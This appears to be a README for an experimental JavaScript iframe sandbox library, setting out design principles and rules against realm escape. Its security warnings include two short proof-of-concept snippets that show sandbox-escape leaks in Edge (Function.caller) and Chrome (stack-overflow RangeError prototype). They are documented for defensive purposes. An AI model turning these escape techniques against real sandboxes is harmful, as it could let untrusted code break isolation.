 # Secure ECMAScript Sandbox experiment (not done yet)

## Design

### Don't expose data unnecessarily

Instead of trying to wrap the data so attacker can't access the real data.  

*WE SHUT THE DOOR DOWN DIRECTLY.*

And trying to expose just **minimal** data that are **enough** to simulate all behavior we want in the iframe through a mini window.

### Security should be enforced on the server side

As everybody know, it is silly to enforce security on client side.

The library copy installed inside the iframe must be only responsible to emulate object behavior properly instead of security things.

Just don't ever try to send information that the iframe shouldn't know to the iframe,  
and the iframe will never get it.

### The current context hate you, and the iframe also hate you.

Don't ever trust any object/function if it is not created by you or it does not have null prototype.

Every object can be a big surprise when doing anything, because we now have something called `Proxy`.

## Terminology
1. world  
    - Realm, Environment, whatever that mean the entire context running current script
    - e.g. iframe or new window
2. service
    - This library
    - Responsible for creating the shadow object
        - And relay object query to service in another world
    - Responsible for remember token <-> real object relationship
        - And handling property query from service in another world
    - Must be initialized per world
3. real object
    - The object in current world that want to be proxied to another world
4. token
    - handle that represent real object
5. shadow object
    - The fake object(proxy) that map to the real object in another world

## Principle
1. shadow object includes service itself must be initiate in the same world
    - So it can't leak constructor and whatever
    - `Even the service itself is untrustworthy`
2. service must not leak real object and any object prototype to service in another world
    - Object must be represent as token when communicate with service in another world
    - Minimize the attack surface
    - So you still can't get the real object even the service itself is pwned
    - `Even the service itself is untrustworthy`
3. drop real ref toward another world ASAP before actual untrustworthy script running
4. rules also applied to custom configuration in configure hooks
    - It has exact the same privilege as service itself,  
        the proxy also being completely pwned if the custom configurations are unsafe.

## Rules to stop world escape
1. passing any object(include function) that has `__proto__` through the `service.[[method name]]` is not allowed
    - It will leak the `Object` thus `Function` thus allow escaping from another world to current world
2. object that pass to other world must be frozen
    - Stop the redefine getter/setter attack

## Rules to prevent same world script break the service
1. using any global variable inside the `init` function in not allowed
2. using any prototype method/property is not allowed (includes the \[\[Symbol.iterator]])
    - e.g. `[...array]`, `weakMap.set`, `[].push('something')`
3. any function/object that has `__proto__` must not be the left hand of property assignment
    - e.g. `({}).prop = 'whatever'`
    - It cause script run in same world able to add getter to the `Object.prototype` and break service

## Architecture

![The Architecture](./SES-arch.png)

# Security Warning

## Edge
Edge Current always leak buildins through Function.caller because all buildins are non strict function.  
Makes it completely impossible to safely access untrustworthy object property descriptor

### POC:

```js
const foo = { bar: 1 }
function getOwnPropertyDescriptor () {
    console.log('caller be', arguments.callee.caller)
}
const untrustworthyObject = new Proxy(foo, {
    getOwnPropertyDescriptor
})

const safeGetDescriptor = (baz) => {
    'use strict'
    Reflect.getOwnPropertyDescriptor(baz, 'bar')
}

safeGetDescriptor(untrustworthyObject)
```

### Result under Edge 44.18362.449.0

```txt
caller be function getOwnPropertyDescriptor() { [native code] }
```

### See also

https://github.com/Jack-Works/proposal-strict-built-in-functions

## chrome (and maybe other)

Chrome(and maybe other) leak Function/Object through stack overflow. because chrome decide the prototype of `RangeError` by the `function being called` instead of the `caller`.

So leaking the `Token` to sandbox is never allowed currently or the sandbox will be completely pwned.

May be also exploitable on firefox, but firefox randomized the stack size. So these kind of exploit can't be done reliable. (Will likely requires thousands of try, and each one only has 0.01% chance to exploit the problem successfully)

### Poc

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <script>
        let iframe = document.createElement('iframe')
        iframe.setAttribute('sandbox', 'allow-same-origin allow-scripts');
        iframe.style.display = 'none';
        document.body.append(iframe)
        iframe.contentWindow.eval('window.foo = () => {}')
        function getLimit (depth = 1) {
            try {
                return getLimit(depth + 1)
            } catch (err) {
                return depth
            }
        }
        console.log(getLimit())
        let err
        function exhaust(depth, cb) {
            try {
                if (depth > 0) {
                    exhaust(depth - 1, cb)
                } else {
                    cb()
                }
            } catch (_err) {
                err =_err
            }
        }
        exhaust(getLimit(), iframe.contentWindow.foo)
        console.log(err instanceof RangeError, err instanceof iframe.contentWindow.RangeError)
    </script>
</body>
</html>
```

### Result under Chrome 78.0.3904.108

```txt
false true
```